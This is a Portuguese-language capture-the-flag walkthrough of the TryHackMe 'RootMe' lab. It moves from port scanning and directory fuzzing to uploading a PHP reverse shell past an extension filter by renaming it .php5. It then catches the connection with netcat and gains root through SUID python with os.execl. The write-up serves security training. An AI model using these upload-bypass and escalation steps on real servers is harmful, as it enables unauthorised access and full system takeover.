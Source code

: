 ```yaml
---
title: 'TryHackMe: RootMe CTF Write-Up'
date: '2024-08-26'
summary: 'Walkthrough do capture-the-flag RootMe disponível na plataforma TryHackMe.'
tags: ['hacking', 'capture-the-flag']
draft: false
---
```


[RootMe](https://tryhackme.com/r/room/rrootme) é um CTF de nível fácil desenvolvido por mim e disponível na plataforma TryHackMe. Este CTF tem como objetivo testar suas habilidades em directory fuzzing, upload file bypass e privilege escalation.

<TOCInline toc={props.toc} asDisclosure />

## Reconhecimento

### Port Scan

Vamos começar com uma scan de portas com o NMAP para descobrir quais portas estão abertas e quais serviços estão sendo executados:

```bash
nmap -sV MACHINE_IP
```

![NMAP Scan](/static/images/rootme/nmap_scan.png)

**Questão 1:** Quantas portas estão abertas?
 
Resposta: 2

**Questão 2:** Qual versão do Apache está rodando?

Resposta: 2.4.29

**Questão 3:** Qual serviço está rodando na porta 22?

Resposta: SSH

### Directory Fuzzing

Vamos usar o Gobuster para encontrar diretórios e arquivos:

```bash
gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt # (Ou sua wordlist de preferência)
```

![Gobuster Scan](/static/images/rootme/gobuster.png)

**Questão 5:** Qual é o diretório escondido?

Resposta: /*****

Encontramos dois diretórios escondidos, vamos dar uma olhada!

## Exploração

### Upload File Bypass

Acessando o diretório escondido encontramos um formulário de upload de arquivos.

![Upload File](/static/images/rootme/hidden_dir.png)

Agora vamos tentar conseguir o acesso ao servidor enviando uma reverse shell.

Para isso vamos usar a [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell) disponível no github.

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Edite o arquivo `php-reverse-shell.php` e altere o IP e a porta.

```
$ip = '127.0.0.1'; // MUDE PARA SEU IP
$port = 4444; // MUDE PARA SUA PORTA DE PREFERÊNCIA
```

Após tentar fazer o upload do arquivo, recebemos a seguinte mensagem:

![Upload File Error](/static/images/rootme/upload_error.png)

Não é permitido o envio de arquivos .php.

Uma maneira de contornar este tipo de filtro é usar extensões incomuns como: `.phtml`, `.php3`, `.php4`, `.php5`, `.php7`.

Vamos tentar renomear o arquivo para `php-reverse-shell.php5` e fazer o upload novamente.

![Upload File Success](/static/images/rootme/upload_success.png)

O arquivo foi enviado com sucesso!

Usando o netcat, vamos escutar na porta que configuramos para receber a conexão reversa:

```bash
nc -lvp 4444
```

![Netcat](/static/images/rootme/nc_listen.png)

Agora basta abrir o arquivo `php-reverse-shell.php` no navegador e conseguiremos spawnar uma shell.

![Reverse Shell](/static/images/rootme/reverse_shell.png)

**Questão 6:** user.txt

Respota: THM\{*****\} *(Localizada no arquivo /var/www/html/user.txt)*

![User Flag](/static/images/rootme/user_flag.png)

### Privilege Escalation

Agora para escalonar nossos privilégios para root vamos explorar arquivos com permissão SUID. 

Caso queira aprender mais a fundo sobre a falha, leia o artigo que escrevi anteriormente sobre: [SUID Privilege Escalation](/blog/suid-privilege-escalation).

Vamos começar procurando pelos arquivos com a permissão SUID:

```bash
find / -perm /4000 # Caso queira esconder os erros adicione 2>/dev/null
```

![SUID Files](/static/images/rootme/suid_files.png)

Encontramos um arquivo suspeito, `/usr/bin/python`.

**Questao 7:** Procure por arquivos com permissão SUID, qual arquivo é estranho?

Resposta: /usr/bin/python

**Questão 8:** Encontre uma forma de escalonar seus privilégios.

O [GTFOBins](https://gtfobins.github.io/) é um *cheat sheet* com várias técnicas de privilege escalation, vamos procurar pelo python.

![GTFOBins](/static/images/rootme/gtfobins.png)

Primeiro, vamos spawnar uma shell TTY com o comando:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

E agora podemos conseguir o acesso ao root através do comando:

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![Root Flag](/static/images/rootme/root_shell.png)

**Questão 9:** root.txt

Resposta: THM\{*****\} *(Localizada no arquivo /root/root.txt)*

CTF concluído com sucesso!

## Conclusão

Os CTFs são uma das melhores maneiras de testar suas habilidades em hacking e desenvolver novas técnicas.

Com esta máquina aprendemos sobre directory fuzzing, upload file bypass e privilege escalation. Espero que tenha gostado do desafio!